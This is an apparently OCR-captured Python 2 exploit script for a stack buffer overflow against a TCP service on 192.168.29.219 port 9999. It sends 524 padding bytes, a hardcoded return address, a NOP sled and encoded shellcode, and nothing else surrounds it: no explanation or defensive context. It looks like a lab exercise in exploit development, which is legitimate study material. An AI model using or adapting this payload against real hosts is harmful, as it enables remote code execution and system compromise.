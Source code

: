     import socket

    buf="A"*524
    #eip 35724134
    #offset 524
    ret="\xf3\x12\x17\x31"
    shellcode=("\xba\x76\x80\x12\x8f\xdd\xc3\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
    "\x12\x31\x50\x12\x03\x50\x12\x83\x9e\x7c\xf0\x7a\x6f\xa6\x02"
    "\x67\xdc\x1b\xbe\x02\xe0\x12\xa1\x63\x82\xe9\xa2\x17\x13\x42"
    "\x9d\xda\x23\xeb\x9b\x1d\x4b\x2c\xf3\xc3\xb6\xc4\x06\xfc\xd7"
    "\x84\x8e\x1d\x57\xc2\xc0\x8c\xc4\xb8\xe2\xa7\x0b\x73\x64\xe5"
    "\xa3\xe2\x4a\x79\x5b\x93\xbb\x52\xf9\x0a\x4d\x4f\xaf\x9f\xc4"
    "\x71\xff\x2b\x1a\xf1")
    print shellcode

    nops="\x90"*10

    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        conn=s.connect(("192.168.29.219",9999))
        k=s.recv(1024)
        print k 
        s.send(buf+ret+nops+shellcode)
    except:
        print "some error"
